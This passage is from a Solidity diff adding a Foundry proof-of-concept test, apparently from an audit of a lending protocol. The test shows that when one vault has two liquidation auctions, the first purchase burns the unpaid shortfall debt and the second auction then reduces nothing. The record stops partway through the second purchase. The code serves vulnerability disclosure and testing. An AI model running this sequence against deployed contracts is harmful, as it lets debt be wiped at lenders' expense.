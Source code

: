 ```solidity
+        oracleInfo = _getOracleInfoForCollateral(collateral.addr, underlying);
+    }
+
+    function testPoC() public {
+        vm.startPrank(purchaser);
+        debtToken.approve(address(controller), type(uint256).max);
+
+        // start auction1, collateralId
+        oracleInfo = _getOracleInfoForCollateral(collateral.addr, underlying);
+        auction1 = controller.startLiquidationAuction(borrower, collateral, oracleInfo);
+
+        // nobody purchage auction1 for some reason(like nft price falling)
+
+        // start auction2, collateralId+1
+        vm.warp(block.timestamp + controller.liquidationAuctionMinSpacing());
+        oracleInfo = _getOracleInfoForCollateral(collateral.addr, underlying);
+        auction2 = controller.startLiquidationAuction(
+            borrower, IPaprController.Collateral({id: collateralId+1, addr: nft}),  oracleInfo);
+
+        IPaprController.VaultInfo memory info = controller.vaultInfo(borrower, collateral.addr);
+        assertGt(info.debt, 2.99e18);
+
+        // purchase auction1
+        uint256 beforeBalance = debtToken.balanceOf(borrower);
+        uint256 price = controller.auctionCurrentPrice(auction1);
+        uint256 penalty = price * controller.liquidationPenaltyBips() / 1e4;
+        uint256 reduced = price - penalty;
+        uint256 shortfall = info.debt - reduced;
+        // burn penalty
+        vm.expectEmit(true, true, false, true);
+        emit Transfer(address(controller), address(0), penalty);
+        // reduce debt (partial)
+        vm.expectEmit(true, false, false, true);
+        emit ReduceDebt(borrower, collateral.addr, reduced);
+        vm.expectEmit(true, true, false, true);
+        emit Transfer(address(controller), address(0), reduced);
+        //!! burning the shortfall debt not covered by auction
+        vm.expectEmit(true, false, false, true);
+        emit ReduceDebt(borrower, collateral.addr, shortfall);
+        oracleInfo = _getOracleInfoForCollateral(collateral.addr, underlying);
+        controller.purchaseLiquidationAuctionNFT(auction1, price, purchaser, oracleInfo);
+
+        // reduced: 0.65..
+        assertLt(reduced, 0.66e18);
+        // fortfall: 2.34..
+        assertGt(shortfall, 2.34e18);
+        //!! debt is 0 now
+        info = controller.vaultInfo(borrower, collateral.addr);
+        assertEq(info.debt, 0);
+
+        // purchase auction2
+        // https://www.wolframalpha.com/input?i=solve+3+%3D+8.999+*+0.3+%5E+%28x+%2F+86400%29
+        vm.warp(block.timestamp + 78831);
+        beforeBalance = debtToken.balanceOf(borrower);
+        price = controller.auctionCurrentPrice(auction2);
+        penalty = price * controller.liquidationPenaltyBips() / 1e4;
+        uint256 payouts = price - penalty;
+        // burn penalty
+        vm.expectEmit(true, true, false, true);
+        emit Transfer(address(controller), address(0), penalty);
+        //!! reduce 0 because debt is 0
+        vm.expectEmit(true, false, false, true);
+        emit ReduceDebt(borrower, collateral.addr, 0);
```